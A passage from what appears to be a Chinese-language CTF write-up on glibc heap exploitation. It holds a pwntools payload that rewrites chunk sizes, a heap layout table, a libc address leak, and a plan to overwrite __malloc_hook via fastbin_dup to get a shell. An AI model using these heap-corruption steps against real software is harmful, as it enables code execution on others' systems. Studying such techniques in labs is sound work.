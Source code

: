 然后fill(1)，payload:

```python
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x91)
```

来修复small chunk的size

这时候就能成功的free(3)

这个时候的堆：

|    地址     |    0-8 byte    |    9-f byte    |
| :-------: | :------------: | :------------: |
| id:0/0x00 |       0        |      0x21      |
|   0x10    |       0        |       0        |
| id:1/0x20 |       0        |      0x21      |
|   0x30    |       0        |       0        |
|   0x40    |       0        |      0x21      |
|   0x50    |       0        |       0        |
| id:2/0x60 |       0        |      0x91      |
|   0x70    | fd(*top_chunk) | bk(*top_chunk) |

然后我们再dump(2)，就能获取到libc的地址了

## malloc hook

这对我来说也是一个新的知识点

```masm
pwndbg> x/36gx 0x7ffff7dd1b20-0x40
0x7ffff7dd1ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1af0 <_IO_wide_data_0+304>:	0x00007ffff7dd0260	0x0000000000000000
0x7ffff7dd1b00 <__memalign_hook>:	0x00007ffff7a92e20	0x00007ffff7a92a00
0x7ffff7dd1b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd1b20 <main_arena>:	0x0000000100000000	0x0000000000000000
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
```

在arena的上面，有个malloc_hook，当这个地址的值不为0时，我们执行malloc将会先跳到malloc_hook的地址上执行指令

所以这里就有一个思路了，我们把malloc_hook给赋值一个执行shell指令的地址，该地址假设为0x23333

然后我们执行malloc函数，不就可以拿到shell了么

覆盖malloc_hook倒挺简单的，就是通过上面的fastbin_dup方法，malloc出最大是malloc_hook-0x16的地址，然后通过fill来覆盖malloc_hook

这里的唯一问题就是malloc的长度检查，然后fastbin的size范围是0x20-0x80
